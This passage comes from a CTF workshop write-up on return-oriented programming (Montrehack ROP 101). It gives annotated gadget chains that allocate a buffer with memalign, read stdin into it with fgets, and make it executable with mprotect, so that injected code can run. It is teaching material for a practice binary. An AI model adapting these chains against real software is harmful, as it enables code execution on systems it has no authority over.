 ----

```python
CALL_MEMALIGN = [
    RSI,      # pop rsi ; pop r15 ; ret
    0x100,    # rsi=0x100
    PAD,      # r15=PAD
    RDI,      # pop rdi ; ret
    0x1000,   # rdi=0x1000
    MEMALIGN, # memalign(align=rdi, size=rsi)
    RAX,      # xchg rax, rdi ; ret
]
```

Recall also that the result of function calls goes into `rax`, so we'll need a
way to move `rax` into `rdi` to retrieve the allocated buffer address, hence the
`RAX` gadget. Everything else is just shuffling the registers to get the
arguments from the stack into the right place.


----

```python
GET_STDIN = [
    RBP,       # pop rbp ; ret
    STDIN + 4, # rbp=STDIN+4
    FD,        # mov rdx, qword ptr [rbp - 4] ; ret
]
```

The most interesting part of this chain is the addition to the `stdin` address
in order to counteract the `FD` gadget. After this part of the chain, `rdx`
contains the file descriptor for `stdin`

----

```python
CALL_FGETS = [
    RSI,   # pop rsi ; pop r15 ; ret
    0x100, # rsi=0x100
    PAD,   # r15=PAD
    FGETS, # fgets(buf=rdi, size=rsi, fd=rdx)
]
```

Thanks to the previous gadgets in the chain, `rdi` already contains the buffer
address and `rdx` already contains the `stdin` file descriptor.

----


```python
CALL_MPROTECT = [
    RAX,      # xchg rax, rdi ; ret
    RSI,      # pop rsi ; pop r15 ; ret
    0x7,      # rsi=PROT_READ | PROT_EXEC | WRITE
    PAD,      # r15=PAD
    RDX,      # mov rdx, rsi ; ret
    RSI,      # pop rsi ; pop r15; ret
    0x100,    # rsi=0x100
    PAD,      # r15=PAD
    MPROTECT, # mprotect(buf=rdi, size=rsi, flags=rdx)
]
```


[1]: https://segfault.me/2019/03/03/montrehack-writeups-motd-v0-1/ "Write-up for motd_v0.1"
[2]: https://segfault.me/2019/04/20/montrehack-writeups-motd-v0-2/ "Write-up for motd_v0.2"
[m]: https://montrehack.ca "Montrehack Official Website"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[man]: http://man7.org/linux/man-pages/man2/mprotect.2.html "Manual Pages for mprotect"
[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"